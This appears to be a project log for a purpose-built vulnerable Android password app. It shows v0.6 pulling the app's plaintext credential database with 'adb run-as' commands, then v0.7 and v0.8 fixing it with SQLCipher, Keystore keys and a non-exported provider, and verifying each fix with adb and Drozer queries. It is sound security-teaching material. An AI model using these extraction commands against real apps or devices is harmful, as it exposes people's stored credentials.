## v0.6 — Exploiting the unencrypted database (vuln #3)

Unlike vulns #1 and #2, this one isn't a bug in `VaultContentProvider` at all — the provider is now fully fixed (v0.3 + v0.5). It's a property of the data store itself: Room/SQLite writes the `credentials` table to disk as plain, unencrypted pages, and `vaultkeeper/build.gradle.kts`'s `debug` build type sets `isDebuggable = true`:

```kotlin
buildTypes {
    debug {
        isDebuggable = true
        signingConfig = signingConfigs.getByName("debug")
    }
    ...
}
```

That flag — baked into the installed APK's manifest, not a system setting — is exactly what `adb shell run-as` checks before granting shell a given app's own UID for filesystem access. No `ContentProvider`, no IPC, no SQL at all: just a direct read of the app's private data directory.

### Attack — pulling the raw database via `adb shell run-as`

`VaultKeeper` is still at its current, fully-patched state (`main`, v0.5 fix in place) — this attack doesn't touch the provider, so no rebuild/reinstall was needed.

```
$ adb shell run-as dev.guillermomartin.vaultkeeper id
uid=10235(u0_a235) gid=10235(u0_a235) ... context=u:r:runas_app:s0:c235,c256,c512,c768

$ adb shell run-as dev.guillermomartin.vaultkeeper ls -la databases/
-rw-rw---- 1 u0_a235 u0_a235  4096 ... vault.db
-rw------- 1 u0_a235 u0_a235 32768 ... vault.db-shm
-rw------- 1 u0_a235 u0_a235 45352 ... vault.db-wal
```

Pulled all three files with `adb exec-out` (not `adb shell ... > file`, which allocates a PTY that can mangle binary data with CRLF translation):

```
$ adb exec-out run-as dev.guillermomartin.vaultkeeper cat databases/vault.db > vault.db
$ adb exec-out run-as dev.guillermomartin.vaultkeeper cat databases/vault.db-wal > vault.db-wal
$ adb exec-out run-as dev.guillermomartin.vaultkeeper cat databases/vault.db-shm > vault.db-shm
$ file vault.db vault.db-wal vault.db-shm
vault.db:     SQLite 3.x database, ...
vault.db-wal: SQLite Write-Ahead Log, version 3007000
vault.db-shm: data
```

With all three files together (`sqlite3` auto-detects and replays the `-wal` next to its main `.db`), the leak is a clean structured query — not just a `strings` grep like v0.4's:

```
$ sqlite3 vault.db ".tables"
android_metadata   credentials        room_master_table

$ sqlite3 vault.db "SELECT * FROM credentials;"
1|example.test|demo@example.test|Tr0ub4dor&3-fake
2|mail.example|demo.mail@example.test|Hunter2-fake
3|shop.example|demo.shop@example.test|Cassette-Battery-Staple-fake
```

Full plaintext credential dump, entirely bypassing both of VaultKeeper's already-fixed provider vulnerabilities — this vector never goes through `VaultContentProvider` at all.

### Boundary check — is this the emulator being permissive, or the app's own flag?

```
$ adb shell getprop ro.debuggable
0
$ adb shell getprop ro.build.type
user
```

The emulator's system image itself is a `user` build (`ro.debuggable=0`) — not the permissive `userdebug`/`eng` image that would grant `run-as` for *any* installed app regardless of its own manifest. Confirmed the gate is really per-app by testing a genuinely non-debuggable app on the same device:

```
$ adb shell run-as com.android.chrome id
run-as: package not debuggable: com.android.chrome
```

versus `VaultKeeper` (`isDebuggable = true` in its `debug` build type) succeeding above. This isolates the root cause precisely: it's `VaultKeeper`'s own debug build flag — not the emulator, not a rooted/permissive device — that hands an attacker with adb access (e.g. a lost/stolen device with USB debugging left on, or a QA/debug build that leaked) a direct, code-free path to the entire plaintext database.

### v0.6 closed

Vuln #3 is proven with a full plaintext dump of the `credentials` table pulled straight off disk via `adb shell run-as`, independent of both already-fixed provider vulnerabilities, and scoped with a real negative test showing the same command is refused outright against a non-debuggable app on the same device. v0.7 fixes this by encrypting the database at rest with SQLCipher, keyed from an Android Keystore-backed passphrase.

## v0.7 — Fixing the unencrypted database (vuln #3)

`vault.db` is now opened through SQLCipher (`net.zetetic:sqlcipher-android` 4.19.1) instead of the stock Android SQLite driver, with Room wired to it via the classic `SupportSQLiteOpenHelper.Factory` API:

```kotlin
// DataModule.kt
single { VaultPassphraseProvider(get()) }
single {
    val passphrase = get<VaultPassphraseProvider>().getOrCreatePassphrase()
    Room.databaseBuilder(get(), VaultDatabase::class.java, VaultDatabase.DATABASE_NAME)
        .openHelperFactory(SupportOpenHelperFactory(passphrase))
        .build()
}
```

The passphrase itself is a random 32-byte value generated on first run and never stored in the clear — it's wrapped with an AES-256-GCM key that lives in the Android Keystore (`VaultPassphraseProvider.kt`) and is non-exportable by construction:

```kotlin
val spec = KeyGenParameterSpec.Builder(KEY_ALIAS, PURPOSE_ENCRYPT or PURPOSE_DECRYPT)
    .setBlockModes(KeyProperties.BLOCK_MODE_GCM)
    .setEncryptionPaddings(KeyProperties.ENCRYPTION_PADDING_NONE)
    .setRandomizedEncryptionRequired(true)
    .build()
```

Only the Keystore-wrapped ciphertext blob (IV + encrypted passphrase) is persisted, in a regular `SharedPreferences` file — same sandbox exposure as `vault.db` itself, but useless without the key.

### Unplanned finding — upgrading in place (without wiping data) fails loudly

Installed the v0.7 build over the existing v0.6 app without uninstalling first, deliberately, to see what happens to the old plaintext `vault.db` under the new SQLCipher-backed driver. Logcat on first DB access:

```
sqlcipher   ERROR CORE sqlcipher_page_cipher: hmac check failed for pgno=1
sqlcipher   ERROR CORE sqlite3Codec: error decrypting page 1 data: 1
SQLiteLog   E  (26) file is not a database in "SELECT COUNT(*) FROM sqlite_schema;"
SQLiteDatabase E  Failed to open database '/data/user/0/dev.guillermomartin.vaultkeeper/databases/vault.db'.
net.zetetic.database.sqlcipher.SQLiteNotADatabaseException: file is not a database (code 26)
```

SQLCipher tries to authenticate page 1's HMAC using the newly-generated passphrase, fails immediately (the old file was never encrypted with any passphrase at all), and refuses to open it — `SQLITE_NOTADB`, the same error code SQLCipher returns for a wrong passphrase. This is actually the desired failure mode: an app that silently treated a foreign/corrupt file as an empty valid database would be worse. Resolved for this training app by clearing app data (`adb shell pm clear dev.guillermomartin.vaultkeeper`) and relaunching — demo data reseeds into a fresh, encrypted file. (A real product would instead need an explicit plaintext→encrypted migration path, e.g. SQLCipher's `sqlcipher_export()`, which is out of scope here since there's no real user data to preserve.)

### Re-running the v0.6 attack (now yields only ciphertext)

Same commands as v0.6, against the freshly reseeded, encrypted `vault.db`:

```
$ adb shell run-as dev.guillermomartin.vaultkeeper ls -la databases/
-rw------- 1 u0_a235 u0_a235  4096 ... vault.db
-rw------- 1 u0_a235 u0_a235 32768 ... vault.db-shm
-rw------- 1 u0_a235 u0_a235 24752 ... vault.db-wal

$ adb exec-out run-as dev.guillermomartin.vaultkeeper cat databases/vault.db > vault.db
$ adb exec-out run-as dev.guillermomartin.vaultkeeper cat databases/vault.db-wal > vault.db-wal
$ file vault.db vault.db-wal
vault.db:     data
vault.db-wal: SQLite Write-Ahead Log, version 3007000

$ strings vault.db vault.db-wal | grep -iE "example|fake|credentials|android_metadata"
(no matches)

$ sqlite3 vault.db "SELECT * FROM credentials;"
Error: in prepare, file is not a database (26)
```

`run-as` still works exactly as before (that's the OS-level debuggable-build exposure from v0.6, unchanged and out of scope for this fix) — but there's nothing left to read. `vault.db`'s own magic header is now encrypted too, so `file` can no longer even recognize it as SQLite (`data`). The lone exception: `vault.db-wal`'s *file-level* header (the 24-byte magic/version/page-size preamble that precedes the actual page frames) isn't itself a SQLCipher-encrypted page, so `file` still identifies it as a WAL container — but the frames inside carry only HMAC-authenticated ciphertext, and the `strings` grep confirms none of the seeded credential/site strings survive in either file.

### v0.7 closed

Vuln #3 is fixed: the same `adb shell run-as` access that dumped full plaintext credentials in v0.6 now recovers only authenticated ciphertext, verified with a real negative test (`strings`/`sqlite3` against the encrypted files come back empty/rejected) run against the exact files pulled with the exact same commands as v0.6. All three vulnerabilities (#1 SQL injection, #2 path traversal, #3 unencrypted database) are now fixed. What remains per the original project plan is v0.8 — hardening the provider itself (`exported=false` + signature-permission variant) as defense in depth, since the fixes so far close the specific bugs but the provider is still, by design, reachable by any app on the device.

## v0.8 — Hardening the exposure surface itself

All three vulns are fixed, but `VaultContentProvider` has stayed `exported="true"` the whole time purely so `VaultRaider` could reach it to demonstrate each one. This closing stage applies the theory doc's own lesson: not exporting a component at all is the first line of defense, ahead of (and independent from) hardening what it does internally.

### Part A — `exported="false"`

```xml
<provider
    android:name=".data.provider.VaultContentProvider"
    android:authorities="dev.guillermomartin.vaultkeeper.provider"
    android:exported="false" />
```

Rebuilt and reinstalled `VaultKeeper`. Tried the same three attack surfaces used throughout the project — and got three genuinely different failure modes depending on the caller's privilege level, all blocked, but informative about how Android enforces this:

**`adb shell` (uid 2000, shell) — gets far enough to receive an explicit denial:**
```
$ adb shell content query --uri content://dev.guillermomartin.vaultkeeper.provider/credentials
java.lang.SecurityException: Permission Denial: opening provider dev.guillermomartin.vaultkeeper.data.provider.VaultContentProvider
from (null) (pid=19851, uid=2000) that is not exported from UID 10235
```

**`VaultRaider` (a real third-party app, uid 10236) — can't even resolve the provider, no exception surfaces to the app's own code:**
```
Query credentials → "Error: query() returned null"
Read favicon file  → "Error: FileNotFoundException: No content provider: content://.../favicons/example.test.png"
```
```
$ adb logcat
AppsFilter: interaction ... vaultraider/10236 -> ... vaultkeeper/10235 BLOCKED
ActivityThread: Failed to find provider info for dev.guillermomartin.vaultkeeper.provider
```

**Drozer (`com.withsecure.dz`, uid 10237) — same `SecurityException` text as `adb shell`:**
```
dz> run app.package.attacksurface dev.guillermomartin.vaultkeeper
Attack Surface:
  2 activities exported
  1 broadcast receivers exported
  0 content providers exported
  0 services exported
    is debuggable

dz> run app.provider.query content://dev.guillermomartin.vaultkeeper.provider/credentials
Exception occured: Permission Denial: opening provider ... that is not exported from UID 10235
```

**Unplanned finding — same denial, three different error surfaces.** `adb shell content` and drozer both get as far as attempting provider resolution through `ActivityManagerService` and receive the real `SecurityException` text back. A genuine app using the standard `ContentResolver.query()`/`openInputStream()` APIs (`VaultRaider`) never sees that exception at all — the framework fails earlier, at provider-info resolution, and surfaces it to app code as a plain `null` cursor or a generic `FileNotFoundException`. All three are equally blocked; a real attacker limited to writing an app (not holding shell/debugging tools) would get the least diagnostic information of the three, which is arguably a feature, not a bug.

`attacksurface`'s own count (`0 content providers exported`) confirms the fix at the manifest level directly, independent of any runtime attack attempt.

### Part B — exploring the alternative: `exported="true"` + signature-level permission

The project also wants to validate the theory doc's other documented option — exporting on purpose but gating it with a custom `protectionLevel="signature"` permission — for the (not implemented in this repo) case where a real, separately-signed companion app would need legitimate access. Applied **temporarily** (not left as the final committed state — there is no real signed companion app in this repo to grant it to):

```xml
<permission
    android:name="dev.guillermomartin.vaultkeeper.provider.ACCESS"
    android:protectionLevel="signature" />
<provider
    android:name=".data.provider.VaultContentProvider"
    android:authorities="dev.guillermomartin.vaultkeeper.provider"
    android:exported="true"
    android:permission="dev.guillermomartin.vaultkeeper.provider.ACCESS" />
```

`VaultKeeper` and `VaultRaider` are signed with two distinct debug keystores committed to this repo specifically so this check is real, not an artifact of both apps sharing Android Studio's default debug keystore (see project plan notes). Rebuilt and reinstalled `VaultKeeper` with this variant; re-ran the same three attacks:

```
$ adb shell content query --uri content://dev.guillermomartin.vaultkeeper.provider/credentials
java.lang.SecurityException: ... requires dev.guillermomartin.vaultkeeper.provider.ACCESS or dev.guillermomartin.vaultkeeper.provider.ACCESS
```

This time `VaultRaider`'s own code *does* see the full exception — unlike Part A, the provider is exported and resolvable, so the failure happens later, at the permission check, and propagates normally through the Binder call:
```
Query credentials → "Error: SecurityException: Permission Denial: opening provider ... from ProcessRecord{...vaultraider/u0a236} (pid=19899, uid=10236) requires dev.guillermomartin.vaultkeeper.provider.ACCESS or dev.guillermomartin.vaultkeeper.provider.ACCESS"
Read favicon file  → same exception
```

And Drozer, consistently:
```
dz> run app.package.attacksurface dev.guillermomartin.vaultkeeper
  1 content providers exported
dz> run app.provider.query content://dev.guillermomartin.vaultkeeper.provider/credentials
Exception occured: Permission Denial: ... requires dev.guillermomartin.vaultkeeper.provider.ACCESS or dev.guillermomartin.vaultkeeper.provider.ACCESS
```

Confirms the two controls fail differently but both work: `exported="false"` blocks resolution outright regardless of signature; `exported="true"` + a signature permission stays technically reachable but still rejects any caller not signed with the same key as `VaultKeeper` — exactly the mechanism a real Chrome-extension companion app would need to share instead.

Reverted the manifest back to the final `exported="false"` state afterward (no lasting committed change from this variant) — confirmed `VaultKeeper`'s own UI (which reads credentials directly through its `CredentialDao`, never through its own `ContentProvider`) is completely unaffected either way, since same-process access never goes through Binder/IPC at all.

### v0.8 closed — project complete

All four points from the theory doc's closing lesson are now demonstrated in real, reproducible code, not just prose:

| # | Risk | Fixed in | Verified by |
|---|---|---|---|
| 1 | SQL injection via unparametrized `selection` | v0.3 | v0.2 attacks re-run, now rejected (`adb`, `VaultRaider`, Drozer) |
| 2 | Path traversal via `openFile()` | v0.5 | v0.4 attacks re-run, now rejected, OS-sandbox boundary also confirmed |
| 3 | Unencrypted local database | v0.7 | v0.6 attack re-run, only ciphertext recoverable |
| — | Unnecessary exposure of the provider itself | v0.8 | Same three attack vectors, now blocked at resolution (`exported=false`) or at the permission check (signature variant) |

Final repo state: all three vulnerabilities fixed, provider `exported="false"`. What's left is the polished synthesis document (Spanish first, then English), written separately from this log per the established WeatherApp-precedent pattern.
